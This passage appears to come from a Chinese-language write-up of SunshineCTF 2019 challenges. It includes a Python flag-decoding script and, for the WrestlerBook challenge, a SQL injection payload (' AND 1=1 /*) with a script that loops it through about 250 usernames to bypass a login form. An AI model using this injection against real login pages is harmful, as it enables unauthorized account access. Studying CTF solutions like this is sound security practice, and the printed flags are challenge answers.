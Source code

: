 ```python
arr[25] = 5;
arr[26] = 3;
arr[27] = 4;
arr[28] = 6;
arr[29] = 6;
arr[30] = 5;

for i in range(len(arr)-1):
  arr[i] = arr[i+1]
print(arr)

lenArr = 30;
res = [0x00000E60, 0x000003A8, 0x00001B80, 0x00000F60, 0x00000120, 0x00000EA0, 0x00000188, 0x00000358, 0x000001A0, 0x000009A0, 0x00000184, 0x000004E0, 0x00000C40, 0x00000C20, 0x000005A0, 0x000001C8, 0x000001D4, 0x000009C0, 0x000001CC, 0x00000B40, 0x00000AE0, 0x00000062, 0x00000360, 0x00000340, 0x000005A0, 0x00000180, 0x000006E0, 0x00000B40, 0x00001540, 0x00000FA0]
flag =''
for i in range(len(res)):
  flag+=chr(res[i]>>arr[i])

print(flag)
```



flag:`sun{Hu1k4MaN1a-ruNs-W1l4-0n-U} `

### [WrestlerBook](https://2019.sunshinectf.org/challenges#WrestlerBook)

SQL 注入，熟悉的登录POST表单，sqlmap 一把梭(???) 跑出表名和一些 user\*，但是没有密码。我们可以利用 

`' AND 1=1 /*` 绕过密码，用户有两百多个，遍历访问查看哪个有 flag 就好

```python
import requests
from bs4 import BeautifulSoup
url = "http://bk.sunshinectf.org/login.php"

headers = {'Cookie': '___rl__test__cookies=1554029505487; OUTFOX_SEARCH_USER_ID_NCOO=1533311957.0976644'}
# cookie = ""
for i in range(0,250):
  username = "user"+str(i)+"' AND 1=1 /*"
  password = "a"
  data = {'username':username,'password':password}
  response = requests.post(url, data,headers=headers)
  bf = BeautifulSoup(response.text)
  texts = bf.find_all('div', class_ = 'desc')
  print(texts)
```

flag: `sun{ju57_4n07h3r_5ql1_ch4ll}`

